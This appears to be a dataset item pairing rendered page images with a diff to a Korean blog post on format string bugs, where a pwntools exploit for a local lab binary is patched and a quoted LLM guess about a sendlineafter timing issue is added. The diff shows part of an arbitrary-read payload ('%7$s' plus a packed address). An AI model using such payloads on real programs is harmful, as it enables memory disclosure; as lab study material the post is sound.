

Before and after one commit to Herrtane/Herrtane.github.io, a Jekyll site: the page built from _posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown, in a window 1280 px wide and 900 px high, scrolled down 3992 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4780 px from its top, so only the background shows below that.

Commit message:
Update 2022-10-06-systemhacking-formatstringbug.markdown

````diff
--- a/_posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown
+++ b/_posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown
@@ -172,7 +172,7 @@ from pwn import *
 
 p = process('./fsb_aar')
 
-p.recvuntil('`secret`: ')
+p.recvuntil(b'`secret`: ')
 secret_addr = int(p.recvline()[:-1].decode(),16)
 
 fstring = b'%7$s'.ljust(8)
@@ -181,3 +181,7 @@ fstring += p64(secret_addr)
 p.sendline(fstring)
 p.interactive()
 ```
+
+여기서, sendlineafter로 하면 작동을 안하는데, LLM에게 물어보니 다음과 같이 답변했다. 참고하자.
+
+> sendlineafter가 안 됐던 이유는 타이밍 문제였을 가능성이 높습니다. recvline()으로 주소를 읽고 난 직후 Format:  프롬프트가 이미 수신 버퍼에 도착해 있는데, sendlineafter가 그걸 받기 전에 타임아웃이 났거나 내부 버퍼 처리 순서가 꼬인 것입니다.
````
